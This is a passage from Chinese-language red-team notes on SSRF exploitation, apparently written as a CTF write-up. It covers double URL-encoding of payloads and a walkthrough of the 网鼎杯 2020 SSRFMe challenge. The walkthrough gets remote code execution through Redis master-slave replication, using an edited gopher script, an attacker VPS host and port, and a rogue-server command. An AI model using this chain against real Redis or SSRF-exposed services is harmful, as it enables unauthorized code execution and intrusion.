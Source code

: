 这里将生成的 payload 要进行 url 二次编码（因为我们发送 payload 用的是 GET 方法），然后利用服务器上的 SSRF 漏洞，将二次编码后的 payload 打过去就行了：

![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SSRF/4.png)

![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SSRF/3.png)

**Redis 主从复制**

以 [网鼎杯 2020 玄武组]SSRFMe 这一题为例, buuoj 上有环境,方便复现

题目信息:
- 通过 http://0.0.0.0/ 访问本机绕过对内网IP的检测
- Redis 配置了密码,为 root
- 利用主从复制进行 rce

利用脚本 https://github.com/xmsec/redis-ssrf

修改脚本
```py
    elif mode==3:
        lhost="192.168.1.100"   # 改成 vps 的地址
        lport="6666"            # 改成 vps 的监听端口
        command="whoami"        # 改成 cat /flag

    ......

    protocol="gopher://"

    ip="127.0.0.1"              # 改成 0.0.0.0 绕过题目中的限制
    port="6379"

    ......

    passwd = ''                 # 密码改成 root
```

生成 payload,记得 URL 编码一下

rogue-server 使用这个项目的 https://github.com/Dliv3/redis-rogue-server.git

```
python3 redis-rogue-server.py --server-only --lport 6666
```

访问

![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SSRF/5.png)

#### FTP

**相关文章**
- [如何用 FTP 被动模式打穿内网](https://www.anquanke.com/post/id/254387)
- [URL ECCENTRICITIES IN JAVA](https://blog.pwnl0rd.me/post/lfi-netdoc-file-java/)
    - [samsbp/java-file-ftp](https://github.com/samsbp/java-file-ftp)

**利用**
